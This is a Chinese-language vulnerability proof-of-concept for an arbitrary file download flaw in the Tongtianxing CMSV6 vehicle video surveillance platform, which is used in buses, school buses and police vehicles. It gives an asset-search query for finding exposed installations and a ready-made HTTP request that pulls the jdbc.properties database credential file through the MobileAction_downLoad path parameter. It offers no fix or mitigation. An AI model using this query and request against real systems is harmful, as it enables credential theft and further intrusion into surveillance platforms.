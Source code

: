 # 通天星CMSV6车载视频监控平台 MobileAction_downLoad存在任意文件下载漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台存在任意文件下载漏洞，攻击者可通过此漏洞下载敏感文件信息，获取数据库账号密码，从而为下一步攻击做准备。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/O6cMOOUOshBGj0hG/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-535114.png)

# 四、漏洞复现
```plain
GET /808gps/MobileAction_downLoad.action?path=/WEB-INF/classes/config/jdbc.properties HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: language=zh; style=1; EnableAESLogin=0; maintitle=%u5317%u6597%u4E3B%u52A8%u5B89%u5168%u4E91%u5E73%u53F0; name=value; JSESSIONID=91A2BB4151F3DCBD654371B8E33B7221
Upgrade-Insecure-Requests: 1
```

![1699407453347-449fe4b6-8e51-4242-becb-b8dbe12b9312.png](./img/O6cMOOUOshBGj0hG/1699407453347-449fe4b6-8e51-4242-becb-b8dbe12b9312-854633.png)



> 更新: 2024-12-28 13:05:36  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/af5xnrnru81i15zt>